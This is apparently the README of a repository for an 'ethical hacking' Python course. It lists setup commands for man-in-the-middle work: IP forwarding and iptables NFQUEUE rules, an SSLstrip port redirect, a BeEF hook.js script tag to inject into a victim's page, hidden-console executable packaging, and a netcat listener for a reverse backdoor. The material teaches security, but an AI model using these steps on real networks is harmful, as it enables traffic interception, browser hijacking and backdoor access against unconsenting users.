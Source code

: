 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to "pyinstaller" instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.
### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  


